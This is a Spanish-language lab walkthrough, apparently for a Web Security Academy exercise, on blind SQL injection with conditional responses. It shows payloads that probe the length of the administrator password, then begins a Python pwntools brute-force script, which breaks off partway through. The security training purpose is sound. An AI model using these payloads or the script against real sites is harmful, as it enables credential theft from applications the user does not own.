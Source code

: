 Antes de hacer el script para que funcione instalaremos lo siguiente...

```shell
pip3 install pwntools
```

Una vez echo eso tendremos que saber de cuantos caracteres se compone la contraseña del usuario, lo haremos de la siguiente manera...

Con esto lo que estamos haciendo es que decimos que la contraseña es mayor a `5` caracteres y como tiene mas de `5` caracteres sera correcto por lo que el `Welcome back!` seguira ahi...

```mysql
' and (select 'a' from users where username='administrator' and length(password)>5)='a;
```

En este caso nos pasamos poniendo que si es mayor de `50` caracteres, por lo que probaremos con un numero menor...

```mysql
' and (select 'a' from users where username='administrator' and length(password)>50)='a;
```

Y si finalmente hacemos lo siguiente veremos que la contraseña tendra `20` caracteres, ya que si ponemos `21` nos da error, por lo que `20` seria el correcto y tambien se puede comprobar poniendo un `>=`....

```mysql
' and (select 'a' from users where username='administrator' and length(password)>20)='a;
```

o

```mysql
' and (select 'a' from users where username='administrator' and length(password)>=20)='a;
```

Una vez sabiendo todo esto el script quedaria de la siguiente manera...

Yo lo llame `SQLI_Conditional_Response.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a8e00f5049e3d15802e5d13003c004f.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
```